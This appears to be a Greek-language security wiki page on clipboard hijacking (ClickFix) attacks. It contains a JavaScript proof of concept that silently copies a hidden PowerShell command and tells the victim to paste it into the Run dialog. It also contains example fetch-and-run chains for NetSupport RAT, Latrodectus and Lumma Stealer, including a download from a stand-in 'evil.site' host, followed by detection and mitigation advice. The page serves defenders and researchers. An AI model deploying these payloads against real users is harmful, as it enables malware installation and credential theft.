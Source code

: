 # Clipboard Hijacking (Pastejacking) Attacks

{{#include ../../banners/hacktricks-training.md}}

> "Ποτέ μην επικολλάτε οτιδήποτε δεν έχετε αντιγράψει εσείς οι ίδιοι." – παλιά αλλά ακόμα έγκυρη συμβουλή

## Overview

Clipboard hijacking – επίσης γνωστό ως *pastejacking* – εκμεταλλεύεται το γεγονός ότι οι χρήστες συνήθως αντιγράφουν και επικολλούν εντολές χωρίς να τις ελέγχουν. Μια κακόβουλη ιστοσελίδα (ή οποιοδήποτε περιβάλλον που υποστηρίζει JavaScript, όπως μια εφαρμογή Electron ή Desktop) τοποθετεί προγραμματισμένα κείμενο ελεγχόμενο από τον επιτιθέμενο στο σύστημα clipboard. Τα θύματα ενθαρρύνονται, συνήθως μέσω προσεκτικά σχεδιασμένων οδηγιών κοινωνικής μηχανικής, να πατήσουν **Win + R** (παράθυρο εκτέλεσης), **Win + X** (Γρήγορη Πρόσβαση / PowerShell), ή να ανοίξουν ένα τερματικό και να *επικολλήσουν* το περιεχόμενο του clipboard, εκτελώντας αμέσως αυθαίρετες εντολές.

Επειδή **δεν κατεβαίνει κανένα αρχείο και δεν ανοίγει καμία συνημμένη**, η τεχνική παρακάμπτει τους περισσότερους ελέγχους ασφαλείας email και διαδικτυακού περιεχομένου που παρακολουθούν συνημμένα, μακροεντολές ή άμεση εκτέλεση εντολών. Η επίθεση είναι επομένως δημοφιλής σε εκστρατείες phishing που παραδίδουν οικογένειες κακόβουλου λογισμικού όπως NetSupport RAT, Latrodectus loader ή Lumma Stealer.

## JavaScript Proof-of-Concept
```html
<!-- Any user interaction (click) is enough to grant clipboard write permission in modern browsers -->
<button id="fix" onclick="copyPayload()">Fix the error</button>
<script>
function copyPayload() {
const payload = `powershell -nop -w hidden -enc <BASE64-PS1>`; // hidden PowerShell one-liner
navigator.clipboard.writeText(payload)
.then(() => alert('Now press  Win+R , paste and hit Enter to fix the problem.'));
}
</script>
```
Οι παλαιότερες εκστρατείες χρησιμοποιούσαν `document.execCommand('copy')`, ενώ οι νεότερες βασίζονται στο ασύγχρονο **Clipboard API** (`navigator.clipboard.writeText`).

## Η ροή ClickFix / ClearFake

1. Ο χρήστης επισκέπτεται μια παραποιημένη ή συμβιβασμένη ιστοσελίδα (π.χ. `docusign.sa[.]com`)
2. Ο εισαγόμενος **ClearFake** JavaScript καλεί μια βοηθητική συνάρτηση `unsecuredCopyToClipboard()` που αποθηκεύει σιωπηλά μια Base64-κωδικοποιημένη PowerShell one-liner στο clipboard.
3. Οι οδηγίες HTML λένε στο θύμα να: *“Πατήστε **Win + R**, επικολλήστε την εντολή και πατήστε Enter για να επιλύσετε το πρόβλημα.”*
4. Το `powershell.exe` εκτελείται, κατεβάζοντας ένα αρχείο που περιέχει ένα νόμιμο εκτελέσιμο καθώς και ένα κακόβουλο DLL (κλασικό DLL sideloading).
5. Ο φορτωτής αποκρυπτογραφεί επιπλέον στάδια, εισάγει shellcode και εγκαθιστά επιμονή (π.χ. προγραμματισμένο έργο) – τελικά εκτελεί το NetSupport RAT / Latrodectus / Lumma Stealer.

### Παράδειγμα αλυσίδας NetSupport RAT
```powershell
powershell -nop -w hidden -enc <Base64>
# ↓ Decodes to:
Invoke-WebRequest -Uri https://evil.site/f.zip -OutFile %TEMP%\f.zip ;
Expand-Archive %TEMP%\f.zip -DestinationPath %TEMP%\f ;
%TEMP%\f\jp2launcher.exe             # Sideloads msvcp140.dll
```
* `jp2launcher.exe` (νόμιμο Java WebStart) αναζητά το κατάλογό του για το `msvcp140.dll`.
* Η κακόβουλη DLL επιλύει δυναμικά APIs με **GetProcAddress**, κατεβάζει δύο δυαδικά αρχεία (`data_3.bin`, `data_4.bin`) μέσω **curl.exe**, τα αποκρυπτογραφεί χρησιμοποιώντας ένα κυλιόμενο κλειδί XOR `"https://google.com/"`, εισάγει τον τελικό shellcode και αποσυμπιέζει το **client32.exe** (NetSupport RAT) στο `C:\ProgramData\SecurityCheck_v1\`.

### Latrodectus Loader
```
powershell -nop -enc <Base64>  # Cloud Identificator: 2031
```
1. Κατεβάζει το `la.txt` με **curl.exe**
2. Εκτελεί τον JScript downloader μέσα στο **cscript.exe**
3. Ανακτά ένα MSI payload → ρίχνει το `libcef.dll` δίπλα σε μια υπογεγραμμένη εφαρμογή → DLL sideloading → shellcode → Latrodectus.

### Lumma Stealer μέσω MSHTA
```
mshta https://iplogger.co/xxxx =+\\xxx
```
Η **mshta** κλήση εκκινεί ένα κρυφό PowerShell script που ανακτά το `PartyContinued.exe`, εξάγει το `Boat.pst` (CAB), ανασυνθέτει το `AutoIt3.exe` μέσω του `extrac32` & της συγχώνευσης αρχείων και τελικά εκτελεί ένα `.a3x` script που εξάγει τα διαπιστευτήρια του προγράμματος περιήγησης στο `sumeriavgv.digital`.

## Ανίχνευση & Κυνήγι

Οι ομάδες ασφαλείας μπορούν να συνδυάσουν την τηλεμετρία του clipboard, της δημιουργίας διαδικασιών και του μητρώου για να εντοπίσουν την κακή χρήση του pastejacking:

* Windows Registry: `HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU` διατηρεί ιστορικό εντολών **Win + R** – αναζητήστε ασυνήθεις εγγραφές Base64 / obfuscated.
* Security Event ID **4688** (Δημιουργία Διαδικασίας) όπου `ParentImage` == `explorer.exe` και `NewProcessName` σε { `powershell.exe`, `wscript.exe`, `mshta.exe`, `curl.exe`, `cmd.exe` }.
* Event ID **4663** για δημιουργίες αρχείων κάτω από `%LocalAppData%\Microsoft\Windows\WinX\` ή προσωρινά φακέλους αμέσως πριν από το ύποπτο γεγονός 4688.
* EDR clipboard sensors (αν υπάρχουν) – συσχετίστε `Clipboard Write` που ακολουθείται αμέσως από μια νέα διαδικασία PowerShell.

## Μετριασμοί

1. Σκληροποίηση προγράμματος περιήγησης – απενεργοποιήστε την πρόσβαση εγγραφής στο clipboard (`dom.events.asyncClipboard.clipboardItem` κ.λπ.) ή απαιτήστε χειρονομία χρήστη.
2. Ευαισθητοποίηση ασφαλείας – διδάξτε στους χρήστες να *πληκτρολογούν* ευαίσθητες εντολές ή να τις επικολλούν πρώτα σε έναν επεξεργαστή κειμένου.
3. PowerShell Constrained Language Mode / Execution Policy + Application Control για να αποκλείσετε αυθαίρετες one-liners.
4. Δίκτυα ελέγχου – αποκλείστε τις εξερχόμενες αιτήσεις σε γνωστούς τομείς pastejacking και κακόβουλου λογισμικού C2.

## Σχετικά Τέχνασμα

* **Discord Invite Hijacking** συχνά εκμεταλλεύεται την ίδια προσέγγιση ClickFix μετά την παγίδευση χρηστών σε έναν κακόβουλο διακομιστή:

{{#ref}}
discord-invite-hijacking.md
{{#endref}}

## Αναφορές

- [Fix the Click: Preventing the ClickFix Attack Vector](https://unit42.paloaltonetworks.com/preventing-clickfix-attack-vector/)
- [Pastejacking PoC – GitHub](https://github.com/dxa4481/Pastejacking)

{{#include ../../banners/hacktricks-training.md}}

